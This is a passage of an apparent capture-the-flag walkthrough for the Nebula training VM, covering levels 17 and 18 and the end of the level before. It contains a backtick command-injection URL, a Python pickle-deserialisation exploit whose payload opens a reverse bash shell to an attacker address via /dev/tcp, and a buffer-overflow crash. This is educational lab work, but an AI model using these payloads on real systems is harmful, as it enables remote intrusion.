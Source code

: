 Wildcards aren't anything new, but I never knew that you could use it as such.  This means we need to have our username evaluated as `/*/shell`, so when it's expanded it'll be `/tmp/SHELL`.  The final result:

```
http://192.168.1.206:1616/index.cgi?username=%22%60%2f*%2fshell%60%22&password=dolphin
```

Add in a netcat call back to a script SHELL in tmp (see level 17) and it's game over.

<h3>Level 17</h3>
This level is yet another vulnerable listener, this time implemented in Python.  The vulnerability lies in the Pickle module, where one look at documentation gets you:

```
Warning The pickle module is not intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.
```

Because our input is never sanitized, we just need to send a specially crafted input string to be unpickled and execute malicious code.  [This](http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf) Blackhat whitepaper came in handy when figuring out how the parsing engine worked, and once I had that figured out it was pretty easy:

```
import socket

cmd = "cos\nsystem\n(S'/bin/bash -i > /dev/tcp/192.168.1.74/5555 0>&1'\ntR.\n"
try:
    sock = socket.socket()
    sock.connect(('192.168.1.206', 10007))
    data = sock.recv(512)
    print 'Got: ', data
    sock.send(cmd)
    sock.close()
except Exception, e: print e
```

I had a netcat shell listening on port 5555 for the call back.  I used this method because the Nebula box doesn't have netcat-traditional on it, which lacks the -e flag.  This is a neat way of opening a reverse shell without the fuss of named pipes.

<h3>Level 18</h3>
According to the level documentation, this can be completed in three different ways at three different difficulty levels.  The binary appears to be a hackney attempt at some sort of login program; with it, a user can "login" to elevate privileges, set user, do some debugging, and some other smaller things.  Immediately though I see a buffer overflow:

```
level18@nebula:/home/flag18$ ./flag18
setuser AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** buffer overflow detected ***: ./flag18 terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0xdbd8d5]
/lib/i386-linux-gnu/libc.so.6(+0xe66d7)[0xdbc6d7]
/lib/i386-linux-gnu/libc.so.6(+0xe5d35)[0xdbbd35]
/lib/i386-linux-gnu/libc.so.6(_IO_default_xsputn+0x91)[0xd41f91]
/lib/i386-linux-gnu/libc.so.6(_IO_vfprintf+0x31d5)[0xd19305]
/lib/i386-linux-gnu/libc.so.6(__vsprintf_chk+0xc9)[0xdbbe09]
/lib/i386-linux-gnu/libc.so.6(__sprintf_chk+0x2f)[0xdbbd1f]
./flag18[0x8048df5]
./flag18[0x8048b1b]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xcef113]
./flag18[0x8048bb1]
======= Memory map: ========
00324000-00325000 r-xp 00000000 00:00 0          [vdso]
00358000-00376000 r-xp 00000000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
00376000-00377000 r--p 0001d000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
```